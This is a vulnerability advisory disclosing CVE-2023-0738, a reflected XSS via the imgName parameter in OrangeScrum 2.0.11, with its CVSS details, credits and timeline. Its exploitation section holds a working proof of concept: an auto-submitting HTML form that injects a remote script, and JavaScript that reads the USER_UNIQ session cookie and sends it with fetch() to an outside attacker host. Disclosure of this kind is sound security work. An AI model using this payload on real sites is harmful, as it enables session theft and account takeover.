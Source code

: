 ```yaml
---
slug: advisories/eilish/
title: OrangeScrum 2.0.11 - Reflected XSS via imgName
authors: Carlos Bello
writer: cbello
codename: eilish
product: OrangeScrum 2.0.11
date: 2023-04-10 12:00 COT
cveid: CVE-2023-0738
severity: 7.3
description: OrangeScrum 2.0.11   -   Reflected XSS via imgName
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, XSS
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                      |
| --------------------- | ---------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - Reflected XSS via imgName       |
| **Code name**         | [Eilish](https://en.wikipedia.org/wiki/Billie_Eilish)|
| **Product**           | OrangeScrum                                          |
| **Affected versions** | 2.0.11                                               |
| **State**             | Public                                               |
| **Release Date**      | 2023-04-10                                           |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Reflected cross-site scripting (XSS)                                                                   |
| **Rule**              | [008. Reflected cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/008)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 7.3                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0738](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0738)                          |

## Description

OrangeScrum version 2.0.11 allows an external attacker to obtain arbitrary
user accounts from the application. This is possible because the application
returns malicious user input in the response with the content-type set to
text/html.

## Vulnerability

This vulnerability occurs because the application returns malicious user input
in the response with the content-type set to text/html.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious HTML
code to an application user.

### Exploit.html

```html
<!DOCTYPE html>
<html>
    <body>
        <form action="https://retr02332bughunter.orangescrum.com/users/done_cropimage" method="POST">
            <input type="hidden" name="x-cord" value="10" />
            <input type="hidden" name="y-cord" value="10" />
            <input type="hidden" name="width" value="10" />
            <input type="hidden" name="height" value="10" />
            <input type="hidden" name="imgName" value="<script type='text/javascript' src='https://retr02332.com/exploit-utils.js'></script>"/>
        </form>
        <script>
              document.forms[0].submit();
        </script>
    </body>
</html>
```

The malicious JavaScript that we embed in the page is as follows.

### Exploit-utils.js

```js
function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
}

let sessionCookie = `USER_UNIQ=${getCookie("USER_UNIQ")}`;

fetch("https://retr02332.com/leak?"+sessionCookie);
```

Thus, when the user clicks on the malicious link, it will send its session
cookie to the attacker's server logs.

## Evidence of exploitation

![vulnerability-orangescrum](https://user-images.githubusercontent.com/51862990/217407265-f56a41f3-b474-435a-9cd2-f6a64f0cf893.png)

<video width="835" height="505" controls>
    <source src="https://rb.gy/fxjmng"
    type="video/mp4">
    <p>POC-XSS-OrangeScrum</p>
</video>

![cookie-leak-orangescrum](https://user-images.githubusercontent.com/51862990/217407370-f2ac8827-831c-49b1-a06e-2ec0a547c2be.png)

## Our security policy

We have reserved the ID CVE-2023-0738 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-03-12"
  contacted="2023-03-12"
  replied="2023-03-12"
  confirmed=""
  patched=""
  disclosure="2023-04-10">
</time-lapse>
